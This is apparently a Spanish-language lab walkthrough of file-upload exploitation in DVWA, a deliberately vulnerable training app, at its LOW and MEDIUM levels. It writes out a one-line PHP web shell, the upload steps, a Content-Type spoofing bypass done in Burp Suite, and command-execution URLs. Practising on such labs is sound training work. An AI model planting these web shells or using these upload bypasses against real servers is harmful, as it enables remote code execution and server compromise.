







# DVWA - File Upload Exploitation (LOW Level)

## Objetivo

Subir un archivo `.php` que se pueda ejecutar remotamente en el servidor.

### Pasos

1. Ir a:
   ```
   http://127.0.0.1:8081/dvwa/vulnerabilities/upload/
   ```

2. Crear un archivo llamado `shell.php` con el siguiente contenido:

   ```php
   <?php system($_GET['cmd']); ?>
   ```

Captura:



[Shell.php](./shell.php)

3. Subir `shell.php` utilizando el formulario de carga.

Captura:



4. Localizar el archivo subido en:
   ```
   http://127.0.0.1:8081/dvwa/hackable/uploads/shell.php
   ```


5. Ejecutar comandos desde la URL:
   ```
   http://127.0.0.1:8081/dvwa/hackable/uploads/shell.php?cmd=ls
   ```

Y ahora podremos observar que archivos hay como vemos en la siguiente captura:



---

#  DVWA - File Upload Exploitation (MEDIUM Level)

## Objetivo
Subir un archivo malicioso superando la restricción de extensiones.

### Pasos

1. Renombramos el archivo:

   ```bash
   mv shell.php shell2.php
   ```

2. Subir `shell2.php` usando el formulario de carga con burpsuite.
   Activaremos en el Burpsuite el proxy e intentaremos subir el Shell2.php, al tener activado el proxy se quedara la peticion en pausa.

   Vamos a subir el php aunque no podramos:

   

   Asi veremos la peticion:

   


3. Ahora enviaremos la peticion en el proxy al repeater, donde cambiaremos la el argumento del Content Type a lo siguiente:
   ```
   Content-Type: application/x-php ==> Content-Type: image/png
   ```
   Captura del cambio de atributo:
   
   

3. Acceder al archivo subido:
   ```
   http://127.0.0.1:8081/dvwa/hackable/uploads/shell2.php
   ```

4. Ejecutar comandos desde la URL:
   ```
   http://127.0.0.1:8081/dvwa/hackable/uploads/shell2.php?cmd=whoami
   ```
   Resultado del comando:

   
---


